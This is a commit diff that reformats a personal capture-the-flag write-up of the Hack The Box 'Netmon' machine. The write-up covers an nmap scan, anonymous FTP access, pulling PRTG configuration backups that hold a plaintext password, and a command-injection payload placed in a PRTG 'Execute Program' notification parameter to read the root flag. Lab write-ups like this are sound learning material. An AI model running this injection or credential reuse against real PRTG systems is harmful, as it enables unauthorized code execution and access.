

Before and after one commit to boxseto/CTFwriteup, a Jekyll site: the page built from docs/HTB_netmon.md, in a window 1280 px wide and 1400 px high, scrolled down 1122 px. Shown: the whole window, without its empty margins (288-1116 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; our own code applies the rules of GitHub Pages for plain Markdown files; some of the changed text lies outside the part shown.

Commit message:
format fix

````diff
--- a/docs/HTB_netmon.md
+++ b/docs/HTB_netmon.md
@@ -11,52 +11,67 @@ Task in Hack The Box consisit of two flags: user flag and owner flag, which corr
     > Login Name: prtgadmin
     > Password: prtgadmin
 1. After trying some SQL injections on the fields, seems the web portal does not have an injection bug. Has to try other ways. Lets see if it has any other openong ports:
-    > # nmap -sV [netmon_ip]
-    > Nmap scan report for [netmon_ip]
-    > Host is up (0.31s latency).
-    > Not Shown: 995 closed ports
-    > PORT    STATE    SERVICE    VERSION
-    > 21/tcp  open     ftp
-    > 80/tcp  open     http
-    > ...
+    ```console
+    # nmap -sV [netmon_ip]
+    Nmap scan report for [netmon_ip]
+    Host is up (0.31s latency).
+    Not Shown: 995 closed ports
+    PORT    STATE    SERVICE    VERSION
+    21/tcp  open     ftp
+    80/tcp  open     http
+    ...
+    ```
+
 1. and we could see there is a ftp port open to us. Again, lets try anonymous account:
-    > # ftp [netmon_ip]
-    > Name: anonymous
-    > 331 Anonymous access allowed, send identity (e-mail name) as password.
-    > Password: (no password)
-    > 230 User logged in.
-    > ftp>
+    ```console
+    # ftp [netmon_ip]
+    Name: anonymous
+    331 Anonymous access allowed, send identity (e-mail name) as password.
+    Password: (no password)
+    230 User logged in.
+    ftp>
+    ```
 1. Great! Thanks to wrong configuration, anonymous account is accessible. and we can not get the user flag:
-    > ftp> cd "Users/Public/"
-    > ftp> ls
-    > 200 PORT command successful.
-    > ...
-    > 02-03-19 12:35AM        33 user.txt
-    > ...
-    > ftp> get user.txt
+    ```console
+    ftp> cd "Users/Public/"
+    ftp> ls
+    200 PORT command successful.
+    ...
+    02-03-19 12:35AM        33 user.txt
+    ...
+    ftp> get user.txt
+    ```
 1. There we are the flag for the user level.
 
 ### Admin Flag -- Steps
 1. After er get the user flag, we could continue browse if we can access the admin flag also (you know, sometimes things works just like that):
-    > ftp> cd "/Users/Administrator"
-    > 550 Access is denied.
+    ```console
+    ftp> cd "/Users/Administrator"
+    550 Access is denied.
+    ```
 1. Okay, so it turns out to be not so easy. After searchong, I found there is a [post](https://www.reddit.com/r/sysadmin/comments/835dai/prtg_exposes_domain_accounts_and_passwords_in/) talking about saving the password in plaintext in earlier versions of PRTG monitor. Therefore, I downloaded all the mentioned files:
-    > ftp> cd "/ProgramData/Paessler/PRTG Network Monitor/"
-    > ftp> get "Configurations/AutoBackups"
-    > ftp> get "PRTG Configuration.dat"
-    > ftp> get "PRTG Configuration.old"
-    > ftp> get "PRTG Configuration.old.bak"
+    ```console
+    ftp> cd "/ProgramData/Paessler/PRTG Network Monitor/"
+    ftp> get "Configurations/AutoBackups"
+    ftp> get "PRTG Configuration.dat"
+    ftp> get "PRTG Configuration.old"
+    ftp> get "PRTG Configuration.old.bak"
+    ```
 1. And Check them one by one. Well, most of them didn't show the password, seems the system upgraded. But looks like somebody does not remember to clean up the backup of the old configurations, and the password is in "PRTG Configuration.old.bak" file:
-    > <dbpassword>
-    >   <!-- User: prtgadmin -->
-    >   PrTg@dmin2018
-    > </dbpassword>
-1. How nice they are to give us the username also! But sadly it is not an account for the ftp server. But we can notice that the username is same as default username of the web portal, so maybe that is an entrence. Shockingly, it happens also not to be the password. but we may twist that "2018" to be "2019", and it brings us to the inside.
+    ```console
+    <dbpassword>
+      <!-- User: prtgadmin -->
+      PrTg@dmin2018
+    </dbpassword>
+    ```
+1. How nice they are to give us the username also! But sadly it is not an account for the ftp server. But we can notice that the username is same as default username of the web portal, so maybe that is an entrence. Shockingly, it happens also not to be the password. but we may twist that "2018" to be "2019", and it brings us to the inside (afterall, it is a old file).
     ![web logged in](./images/HTB/netmon/img2.png)
 1. But I don't know what should be used with this hack, so I search the web again. and I found another [post](https://www.codewatch.org/blog/?p=453) that tells that there is a place that we can do remote code execution:
   1. Go to "Setup>Account Settings>Notifications>new notification"
   1. Add new Notification with "Execute Program", set parameter to be exploit code:
-      > test.txt; more c:\Users\Administrator\Desktop\root.txt > c:\output.txt
+      ```console
+      test.txt; more c:\Users\Administrator\Desktop\root.txt > c:\output.txt
+      ```
       ![new Notification](./images/HTB/netmon/img4.png)
   1. save and return.
   1. Find a sensor that matches the requirement for sending a "notification" (in this case there is a always-down sensor which can let me set a "notify when down" rule)
@@ -65,12 +80,14 @@ Task in Hack The Box consisit of two flags: user flag and owner flag, which corr
   1. Then wait a while and there should be a log triggered telling us that the meal is ready.
       ![log](./images/HTB/netmon/img6.png)
 1. After execute, fetch the file using ftp again, and we can now find the code.
-    > ftp> ls
-    > 200 PORT command successful.
-    > ...
-    > 02-03-19 12:35AM        33 output.txt
-    > ...
-    > ftp> get output.txt
+    ```console
+    ftp> ls
+    200 PORT command successful.
+    ...
+    02-03-19 12:35AM        33 output.txt
+    ...
+    ftp> get output.txt
+    ```
 
 ### Conclusion
 - This is my first time to do a CTF, so it is really challenging although the tasks are extremely easy. the road is still very long.
````
Also changed, not shown: index.md (+3 -0 lines).
